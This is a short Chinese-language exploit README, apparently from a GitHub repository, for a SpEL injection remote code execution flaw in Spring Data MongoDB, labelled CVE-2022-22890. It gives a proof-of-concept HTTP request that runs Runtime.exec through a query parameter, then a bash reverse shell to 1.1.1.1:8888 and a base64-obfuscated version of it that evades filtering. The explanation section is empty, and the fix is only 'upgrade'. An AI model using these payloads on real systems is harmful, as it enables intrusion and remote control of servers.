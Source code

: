 # SpringDataMongoDBSpEL RCE(CVE-2022-22890)

## 利用条件：
- SpringDataMongoDB 应用程序在使用带有 SpEL 表达式的 @Query 或 @Aggregation-annotated 查询方法且输入未经过过滤。

## 利用方法：
#### POC：
```shell
POST /?name=T(java.lang.String).forName(%27java.lang.Runtime%27).getRuntime().exec(%27ping%20a.dnslog.cn%27)
Host: 1.1.1.1
Connection: close
```
![](/img/poc.png)
- linux反弹shell POC：
`bash -i >&/dev/tcp/1.1.1.1/8888 0>&1`经过base64变形后进行url编码
```shell
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```
![](/img/shell.png)

## 漏洞原理：

## 漏洞修复：
1. 使用官方最新发布版本。